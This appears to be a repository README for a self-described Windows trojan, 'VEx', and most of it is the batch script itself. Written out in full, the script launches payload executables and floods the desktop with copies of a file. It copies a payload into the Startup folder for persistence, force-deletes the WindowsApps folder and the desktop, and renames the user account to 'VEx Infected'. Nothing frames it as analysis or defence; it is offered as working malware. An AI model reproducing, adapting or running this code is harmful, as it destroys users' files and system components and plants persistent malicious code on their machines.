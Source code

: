 # Trojan.VEx.Win32
Updated The Files Where Not Arranged Correct

READ ME :
This is a Windows Trojan That Can Harm Your PC
Here Is The Harmful Code :
@echo off 
Goto 1

:1
start c:\vexwork1.exe
start c:\vexwork4.exe
start c:\vexwork3.deskthemepack
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\vexwork4.exe" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\vexwork4.exe"
del /f /s /q "C:\Program Files\WindowsApps"
del /f /s /q "%userprofile\Desktop\%"
wmic useraccount where='%username%' set FullName='VEx Infected' 
wmic useraccount where='%username%' rename 'VEx Infected'
exit

This Deletes Windows Apps Sets Username and Puts Payload In Startup.

It wont let me upload the main files by folder so i have to do it on my windows pc.
